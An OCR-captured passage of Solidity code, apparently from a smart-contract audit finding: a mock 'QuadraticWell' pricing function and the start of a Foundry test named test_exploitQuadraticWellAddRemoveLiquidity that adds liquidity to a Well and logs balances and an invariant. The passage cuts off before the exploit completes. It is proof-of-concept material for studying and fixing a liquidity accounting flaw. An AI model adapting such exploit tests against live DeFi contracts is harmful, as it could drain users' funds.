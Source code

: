 ```solidity
        bytes calldata
    ) external override pure returns (uint reserve) {

        if(j == 0)
        {
            uint delta = PRICE_BOUND*PRICE_BOUND - PRECISION*reserves[1]/2;
            return lpTokenSupply + delta*delta /PRECISION/PRECISION/PRECISION;
        }
        else {
            uint delta = (reserves[0] - lpTokenSupply)*PRECISION;
            return (PRICE_BOUND*PRICE_BOUND - delta.sqrt()*PRECISION)*2/PRECISION;
        }
    }

    function name() external override pure returns (string memory) {
        return "QuadraticWell";
    }

    function symbol() external override pure returns (string memory) {
        return "QW";
    }
}

// NOTE: Put in Exploit.t.sol
function test_exploitQuadraticWellAddRemoveLiquidity() public {
    MockQuadraticWell quadraticWell = new MockQuadraticWell();
    Call memory _wellFunction = Call(address(quadraticWell), "");
    Well well2 = Well(auger.bore("Well2", "WELL2", tokens, _wellFunction, pumps));

    approveMaxTokens(user, address(well2));
    uint[] memory amounts = new uint[](tokens.length);
    changePrank(user);

    // initial status 1:1
    amounts[0] = 1e18;
    amounts[1] = 1e18;
    well2.addLiquidity(amounts, 0, user); // state: [1 ether, 1 ether, 0.75 ether]

    Balances memory userBalances1 = getBalances(user, well2);
    uint[] memory userBalances = new uint[](3);
    userBalances[0] = userBalances1.tokens[0];
    userBalances[1] = userBalances1.tokens[1];
    userBalances[2] = userBalances1.lp;
    Balances memory wellBalances1 = getBalances(address(well2), well2);
    uint[] memory wellBalances = new uint[](3);
    wellBalances[0] = wellBalances1.tokens[0];
    wellBalances[1] = wellBalances1.tokens[1];
    wellBalances[2] = wellBalances1.lpSupply;
    amounts[0] = wellBalances[0];
    amounts[1] = wellBalances[1];

    emit log_named_array("userBalances1", userBalances);
    emit log_named_array("wellBalances1", wellBalances);
    emit log_named_int("invariant", quadraticWell.wellInvariant(wellBalances[2], amounts));

    // addLiquidity
    amounts[0] = 2e18;
    amounts[1] = 1e18;
    well2.addLiquidity(amounts, 0, user); // state: [3 ether, 2 ether, 3 ether]

    Balances memory userBalances2 = getBalances(user, well2);
    userBalances[0] = userBalances2.tokens[0];
    userBalances[1] = userBalances2.tokens[1];
```